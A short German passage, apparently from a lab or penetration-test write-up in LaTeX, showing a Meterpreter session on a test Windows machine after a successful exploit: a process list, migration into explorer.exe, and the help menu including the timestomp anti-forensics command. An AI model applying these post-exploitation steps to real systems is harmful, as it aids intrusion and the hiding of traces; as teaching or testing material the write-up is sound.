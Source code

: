 Wir waren erfolgreich, und sind jetzt auf dem Zielsystem. Anschließend wurde
noch nach laufenden Prozessen auf dem Zielsystem gesucht. Uns interessierte der
Prozess 1696 (explorer.exe):
\begin{lstlisting}[language=Metasploit]
meterpreter > ps

Process list
============
 PID   Name              Arch  Session  User  Path                                                                                
 ---   ----              ----  -------  ----  ----                                                                            

 0     [System Process]

 4     System            x86   0        $U$NTAUTORITT\SYSTEM-0x4e542d4155544f524954c4545c53595354454d
.
.
.

 1488  dfssvc.exe        x86   0        $U$NTAUTORITT\SYSTEM-0x4e542d4155544f524954c4545c53595354454d                          C:\WINDOWS\system32\Dfssvc.exe

 1696  explorer.exe      x86   0        TEST-174JNJRAFI\Administrator                                                          C:\WINDOWS\Explorer.EXE

.
.
.
 2012  cmd.exe           x86   0        TEST-174JNJRAFI\Administrator                                                          C:\WINDOWS\system32\cmd.exe
\end{lstlisting}

Wir migrierten zum Prozess 1696:
\begin{lstlisting}[language=Metasploit]
meterpreter > migrate 1696

[*] Migrating to 1696...

[*] Migration completed successfully.

meterpreter > ?

Core Commands
=============
    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bgkill                    Kills a background meterpreter script
    
.
.
.

Priv: Timestomp Commands
========================

    Command       Description
    -------       -----------
    timestomp     Manipulate file MACE attributes
\end{lstlisting}

